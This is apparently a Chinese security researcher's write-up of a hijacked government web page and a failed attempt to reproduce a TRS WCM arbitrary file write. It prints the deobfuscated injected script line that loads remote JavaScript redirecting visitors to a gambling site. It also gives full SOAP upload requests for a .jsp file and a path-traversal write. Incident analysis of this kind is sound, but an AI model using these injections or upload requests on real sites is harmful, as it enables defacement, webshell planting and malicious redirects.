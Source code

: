 # TRS WCM 系统任意文件写入漏洞~~尝试复现~~
### 0x00
接到某政府部网页被挂马的信息，对被挂网页进行查看，在源码中发现
![](./img/1.png)
明显的js混淆，反混淆后得到(里面的x??就是ASCII,转换过来就好)
```javascript
window["document"]["write"]("<script type='text/javascript' src='http://www.138609.net/jsh.js'></script>");
```
跟进http://www.138609.net/jsh.js，得到js跳转(这里就不贴了)
最终跳转到<font color='red'>`https://www.yabc88.com/`</font>这个菠菜网站</br>
~~我们搞一下这个菠菜网站~~
### 0x01
挂马情况已经摸清了，现在尝试溯源，先找运维人员要来了服务器的流量</br>经过审计没有发现攻击流量(后来得知拿到的是前台流量，猜测黑客从后台进行修改网页)
我们去找网站的后端</br>
一般后端只需要找交互的地方，比如登录，可以找到后端控制的地方
![](./img/2.png)
成功找到后台,指纹识别为Tomcat Apache</br>
<center>![](./img/3.png)</center>
通过Google<font color="red">`wcm`</font>找到了<font color="red">`/wcm/console/include/running_background.html`</font>路径
得到了版本信息
<center>![](./img/4.png)</center>
找到一些有关利用漏洞，比如TRS WCM 系统任意文件写入漏洞
### exploit
在<font color="red">`wcm/services/trswcm:SOAPService?wsdl`</font>和<font color="red">`wcm/services/trs:templateservicefacade?wsdl`</font>中裸露出来两个接口<br/>
通过访问<font color="red">`wcm/services`</font>得知，需要使用SOAPUI这个客户端才能进行交互
![](./img/5.png)
安装好SOAPUI之后<font color="red">`File`</font>-\><font color="red">`New SOAP Project`</font>，上面的输入框随意输入，下面的输入框我们要输入裸露的接口
<center>![](./img/6.png)</center>
将接口成功连接上之后发现<font color="red">`uploadFile`</font>和<font color="red">`sendFileBase64`</font>这两个接口或许可以利用</br>
这里要注意的是，原本利用的接口是<font color="red">`writeFile`</font>和<font color="red">`writeSpecFile`</font>，但是之前维护的时候已经把这两个删掉了
<center>![](./img/7.png)</center>
尝试上传文件，发出请求
```xml
<soapenv:Envelope xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance" xmlns:xsd="http://www.w3.org/2001/XMLSchema" xmlns:soapenv="http://schemas.xmlsoap.org/soap/envelope/" xmlns:impl="http://impl.service.trs.com">
   <soapenv:Header/>
   <soapenv:Body>
      <impl:uploadFile soapenv:encodingStyle="http://schemas.xmlsoap.org/soap/encoding/">
         <in0 xsi:type="soapenc:base64Binary" xmlns:soapenc="http://schemas.xmlsoap.org/soap/encoding/">MTEx</in0>
         <in1 xsi:type="soapenc:string" xmlns:soapenc="http://schemas.xmlsoap.org/soap/encoding/">jsp</in1>
         <in2 xsi:type="xsd:boolean">0</in2>
      </impl:uploadFile>
   </soapenv:Body>
</soapenv:Envelope>
```
得到如下回应，发现成功上传，并得到了物理路径，并不在web路径
```xml
<soapenv:Envelope xmlns:soapenv="http://schemas.xmlsoap.org/soap/envelope/" xmlns:xsd="http://www.w3.org/2001/XMLSchema" xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance">
   <soapenv:Body>
      <ns1:uploadFileResponse soapenv:encodingStyle="http://schemas.xmlsoap.org/soap/encoding/" xmlns:ns1="http://impl.service.trs.com">
         <uploadFileReturn xsi:type="soapenc:string" xmlns:soapenc="http://schemas.xmlsoap.org/soap/encoding/"><![CDATA[<REPORTS><IS-SUCCESS>true</IS-SUCCESS><TITLE><![CDATA[上传文件]]]]>><![CDATA[</TITLE><REPORT><IS-SUCCESS>true</IS-SUCCESS><TITLE><![CDATA[U020190710557616464509.jsp:D:\TRS\TRSZMHD\WCMData\upload\U0201907\U020190710\U020190710557616464509.jsp]]]]>><![CDATA[</TITLE><TYPE>3</TYPE></REPORT></REPORTS>]]></uploadFileReturn>
      </ns1:uploadFileResponse>
   </soapenv:Body>
</soapenv:Envelope>
```
尝试写入web目录中
```xml
<soapenv:Envelope xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance" xmlns:xsd="http://www.w3.org/2001/XMLSchema" xmlns:soapenv="http://schemas.xmlsoap.org/soap/envelope/" xmlns:impl="http://impl.service.trs.com">
   <soapenv:Header/>
   <soapenv:Body>
      <impl:uploadFile soapenv:encodingStyle="http://schemas.xmlsoap.org/soap/encoding/">
         <in0 xsi:type="soapenc:base64Binary" xmlns:soapenc="http://schemas.xmlsoap.org/soap/encoding/">MTEx</in0>
         <in1 xsi:type="soapenc:string" xmlns:soapenc="http://schemas.xmlsoap.org/soap/encoding/">D:\\Tomcat\\webapps\\wcm\\demo\\index.jsp</in1>
         <in2 xsi:type="xsd:boolean">1</in2>
      </impl:uploadFile>
   </soapenv:Body>
</soapenv:Envelope>
```
这次是报错信息<font color="red">`不是常规后缀信息，不能获取相应的文件名`</font>，尝试修改，发现只有<font color="red">`[.???|???]`</font>可以使用，一旦使用<font color="red">`/`</font>和<font color="red">`\`</font>进行跳跃就不可以，原因在于Server会将<font color="red">`D:\TRS\TRSZMHD\WCMData\upload\U0201907\U020190710\U020190710557616464509.`</font>与我们填写的后缀进行拼接，一旦切换目录就会出现<font color="red">`D:\TRS\TRSZMHD\WCMData\upload\U0201907\U020190710\U020190710557616464509.\xxx`</font>这种路径，从而报错，不能达到任意目录写的操作</br>
<center>复现失败</center>